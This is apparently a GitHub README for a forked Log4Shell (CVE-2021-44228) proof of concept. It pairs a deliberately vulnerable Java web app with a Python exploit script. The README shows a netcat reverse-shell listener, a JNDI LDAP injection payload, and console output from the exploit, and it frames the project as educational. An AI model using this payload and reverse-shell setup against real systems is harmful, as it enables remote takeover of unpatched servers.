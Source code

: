 # Log4Shell Vulnerable WebApp PoC

################################################################################################################
<b>Webmaster-Exit-1's Forked, Updated, Bug fixes, with Correct versions of software NOW included!</b><br>      
################################################################################################################
<b>All my fork of this project does is make this tutorial actually useable. I'm not sure why the dev's</b><br>
<b>use incorrect software and software names. Almost as if they we're self sabotaging this project. Very odd.</b><br>
<b>I hope that my updated, corrected fork of this project comes in handy for you all.</b><br>
<b>Hack until it hurts. :)  -- WebMaster-Exit-1</b><br>
################################################################################################################

A Proof-Of-Concept vulnerable web application for the Log4J vulnerability (CVE-2021-44228), based off Kozmer's Log4Shell POC.  This simple fork allows a web browser's User Agent to be logged when the site is visited.
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

## A video showing the exploitation process

Vuln Web App:

<https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4>

Ghidra (Old script):

<https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4>

Minecraft PoC (Old script):

<https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4>

Proof-of-concept (POC)

As a PoC we have created a python file that automates the process.

### Requirements

```bash
pip install -r requirements.txt
```

#### Usage

* Start a netcat listener to accept reverse shell connection.

```py
nc -lvnp 9001
```

* Launch the exploit.
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.

```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

Our vulnerable application

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:

```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```

Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

Getting the Java version

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```javascript
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

### Disclaimer

This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.
